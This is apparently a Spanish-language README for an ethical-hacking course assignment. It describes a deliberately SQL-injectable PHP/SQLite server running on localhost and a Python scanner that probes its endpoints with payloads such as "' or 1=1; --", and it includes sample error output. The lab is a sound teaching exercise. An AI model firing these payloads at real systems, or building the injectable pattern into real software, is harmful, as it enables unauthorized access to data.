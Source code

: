 # curso-hacking-etico-m5-leccion-7-actividad-1
Entrega módulo 5 lección 7: actividad 1 portafolio.

### Instalación de PHP en arch linux

- `sudo pacman -S php php-sqlite`

### Habilitación de extensiones de sqlite en php.ini
Ruta a php.ini: `/etc/php/php.ini`

Habilitar:
```ini
extension=pdo_sqlite
extension=sqlite3
```

### Inicio del servidor web vulnerable

1. php -S localhost:4000 server.php

### Endpoints virtuales
El servidor provee dos endpoints virtuales con vulnerables a inyección SQL:
- message.php
- login.php

message.php
```bash
user@hostname $ http GET http://localhost:4000/message.php?id=2

HTTP/1.1 200 OK
Connection: close
Content-type: text/html; charset=UTF-8
Date: Sat, 12 Jul 2025 16:56:12 GMT
Host: localhost:4000
X-Powered-By: PHP/8.4.8

{
    "body": "Esto es un mensaje!",
    "id": 2
}
```
login.php
```bash
user@hostname $ http POST http -f POST http://localhost:4000/login.php user=test password=1

HTTP/1.1 403 Forbidden
Connection: close
Content-type: text/html; charset=UTF-8
Date: Sat, 12 Jul 2025 17:01:56 GMT
Host: localhost:4000
X-Powered-By: PHP/8.4.8
```

#### Inyecciones

message.php
```bash
user@hostname $ http GET "http://localhost:4000/message.php?id='"

HTTP/1.1 200 OK
Connection: close
Content-type: text/html; charset=UTF-8
Date: Sat, 12 Jul 2025 16:59:55 GMT
Host: localhost:4000
X-Powered-By: PHP/8.4.8

<br />
<b>Warning</b>:  SQLite3::query(): Unable to prepare statement: unrecognized token: &quot;'&quot; in <b>[HIDDEN]/server.php</b> on line <b>148</b><br />
<br />
<b>Fatal error</b>:  Uncaught Error: Call to a member function fetchArray() on false in [HIDDEN]/server.php:148
Stack trace:
#0 {main}
  thrown in <b>[HIDDEN]/server.php</b> on line <b>148</b><br />
```

login.php
```bash
user@hostname $ http -f POST http://localhost:4000/login.php user="'" password=1

HTTP/1.1 200 OK
Connection: close
Content-type: text/html; charset=UTF-8
Date: Sat, 12 Jul 2025 17:02:43 GMT
Host: localhost:4000
X-Powered-By: PHP/8.4.8

<br />
<b>Warning</b>:  SQLite3::query(): Unable to prepare statement: near &quot;c4ca4238a0b923820dcc509a6f75849b&quot;: syntax error in <b>[HIDDEN]/server.php</b> on line <b>123</b><br />
<br />
<b>Fatal error</b>:  Uncaught Error: Call to a member function fetchArray() on false in [HIDDEN]/server.php:124
Stack trace:
#0 {main}
  thrown in <b>[HIDDEN]/server.php</b> on line <b>124</b><br />
```

### Creación del ambiente virtual para Python (en arch linux)

- Creacióñ: `python -m venv .venv`
- Inicialización: `source .venv/bin/activate`
- Desactivación: `deactivate`

### Instalación de paquetería

`pip install -r requirements.txt`

### Herramienta sqli-analizer.py

```bash
user@hostname $ python sqli-analizer.py -h
usage: sqli-analizer.py [-h] -t TESTS -u TARGETS [--timeout TIMEOUT] [-q]

Modulo 5 - Lección 7 - Actividad 1: Automatización de Pruebas de SQL Injection sobre URLs

options:
  -h, --help            show this help message and exit
  -t, --tests TESTS     Casos de uso para testear SQLi.
  -u, --urls-file TARGETS
                        Endpoints a ser testados
  --timeout TIMEOUT     Configura el tiempo de espera de las solicitudes
  -q, --quiet           Suprime las salidas del testing y solo muestra el reporte.
```

### Ejecución de tests de inyección SQL

```bash
user@hostname $ python sqli-analizer.py -t tests.json -u targets.txt

[Info] Testing: http://localhost:4000/login.php
[Info] Running test: SQL error
[Info] Running test: ' or 1=1; --
[Info] Running test: ' or `1`=`1`; --
[Info] Testing: http://localhost:4000/message.php
[Info] Running test: SQL error
[Info] Running test: ' or 1=1; --
[Info] Running test: ' or `1`=`1`; --

Report:
URL: http://localhost:4000/login.php
- Vulnerable?: Yes
URL: http://localhost:4000/message.php
- Vulnerable?: Yes
```

#### Modo silencioso `-q`|`--quiet`

```bash
user@hostname $ python sqli-analizer.py -t tests.json -u targets.txt -q
Report:
URL: http://localhost:4000/login.php
- Vulnerable?: Yes
URL: http://localhost:4000/message.php
- Vulnerable?: Yes
```
